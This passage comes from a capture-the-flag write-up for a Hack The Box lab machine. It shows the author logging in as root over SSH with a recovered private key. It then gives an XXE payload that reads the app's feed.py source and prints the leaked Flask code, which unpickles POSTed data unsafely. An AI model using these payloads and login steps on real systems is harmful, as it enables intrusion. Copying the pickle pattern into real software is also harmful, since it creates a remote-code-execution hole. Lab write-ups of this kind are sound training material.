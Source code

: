 Change the permissions on the file.

```text
chmod 600 unknown_id_rsa
```

Try to log into the git account with it.

```text
root@kali:~/Desktop/htb/devoops# ssh -i unknown_id_rsa git@10.10.10.91
git@10.10.10.91's password:
```

It doesn’t work. Let’s try the root account.

```text
root@kali:~/Desktop/htb/devoops# ssh -i unknown_id_rsa root@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)* Documentation:  https://help.ubuntu.com
* Management:     https://landscape.canonical.com
* Support:        https://ubuntu.com/advantage135 packages can be updated.
60 updates are security updates.Last login: Mon Mar 26 06:23:48 2018 from 192.168.57.1
root@gitter:~#
```

We’re in! Grab the _root.txt_ flag.

![](https://miro.medium.com/max/517/1*ZuZrBaTvdNx1D5-zE3OBng.png)

## Extra Content <a id="e0a2"></a>

After rooting this machine, I watched [ippsec’s video](https://www.youtube.com/watch?v=tQ34Ntkr7H4) and discovered an alternative way to gain initial access.

In the index page, there was a mention of a _feed.py_ script that gave us a 404 error when we tried to access it through the application. We can use the XXE injection vulnerability to view the content of the script.

```text
xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:feed.py'>]>
<test>
<Author>&test;</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>
```

We get back the following result in the response.

```text
PROCESSED BLOGPOST: 
  Author: ')
def uploaded_file(filename):
    return send_from_directory(Config.UPLOAD_FOLDER,
                               filename)@app.route("/")
def xss():
    return template('index.html')@app.route("/feed")
def fakefeed():
   return send_from_directory(".","devsolita-snapshot.png")@app.route("/newpost", methods=["POST"])
def newpost():
  # TODO: proper save to database, this is for testing purposes right now
  picklestr = base64.urlsafe_b64decode(request.data)
#  return picklestr
  postObj = pickle.loads(picklestr)
  return "POST RECEIVED: " + postObj['Subject']## TODO: VERY important! DISABLED THIS IN PRODUCTION
#app = DebuggedApplication(app, evalex=True, console_path='/debugconsole')
# TODO: Replace run-gunicorn.sh with real Linux service script
```